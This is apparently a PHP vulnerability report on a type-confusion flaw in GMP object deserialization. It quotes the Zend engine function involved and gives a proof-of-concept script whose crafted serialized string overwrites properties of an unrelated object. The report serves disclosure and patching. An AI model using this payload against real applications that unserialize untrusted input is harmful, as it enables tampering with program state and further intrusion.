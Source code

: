 zend_object_handlers.c
```
ZEND_API HashTable *zend_std_get_properties(zval *object TSRMLS_DC) /* {{{ */
{
	zend_object *zobj;
	zobj = Z_OBJ_P(object);
	if (!zobj->properties) {
		rebuild_object_properties(zobj);
	}
	return zobj->properties;
}
```

It has been demonstrated many times before that __wakeup() or other magic methods leads to ZVAL was changed from the memory in during deserializtion. So an attacker can change **object into an integer-type or bool-type ZVAL, then the attacker will be able to access any objects that stored in objects store via Z_OBJ_P. This means the attacker will be able to update any properties in the object via zend_hash_copy(). It is possible to lead to various problems and including security issues.

The following codes will prove this vulnerability:
```
<?php

class obj
{
	var $ryat;
	
	function __wakeup()
	{
		$this->ryat = 1;
	}
}

$obj = new stdClass;
$obj->aa = 1;
$obj->bb = 2;

$inner = 's:1:"1";a:3:{s:2:"aa";s:2:"hi";s:2:"bb";s:2:"hi";i:0;O:3:"obj":1:{s:4:"ryat";R:2;}}';
$exploit = 'a:1:{i:0;C:3:"GMP":'.strlen($inner).':{'.$inner.'}}';
$x = unserialize($exploit);
var_dump($obj);

?>
```

Expected result:
```
object(stdClass)#1 (2) {
  ["aa"]=>
  int(1)
  ["bb"]=>
  int(2)
}
```
